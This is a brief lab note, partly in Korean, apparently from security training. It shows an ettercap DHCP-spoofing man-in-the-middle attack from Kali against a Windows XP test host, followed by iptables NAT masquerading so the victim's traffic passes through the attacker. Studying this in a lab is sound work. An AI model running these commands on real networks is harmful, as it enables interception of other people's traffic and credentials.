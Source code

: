 root@kali-04:~/Desktop# ettercap -i eth1 -T -M dhcp:10.10.10.50-60/255.255.255.0/8.8.8.8



###### XP

ipconfig /release -> ipconfig /renew

```
IP 10.10.10.50
Subnet Mask 255.255.255.0
Default Gateway 10.10.10.100
```

ping 8.8.8.8  하면 외부로 안나감 (단방향과 다름)

NAT를 기본적으로 설정 해주어야 함!



###### 칼리

NEW TAP 하나 더 생성

호스트 라우팅 추가

root@kali-04:~/Desktop# iptables -t nat -L

```
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         

Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination   
```

root@kali-04:~/Desktop# iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
root@kali-04:~/Desktop# iptables -t nat -L

```
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         

Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination         
MASQUERADE  all  --  anywhere             anywhere       // 추가 완료     

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination     
```
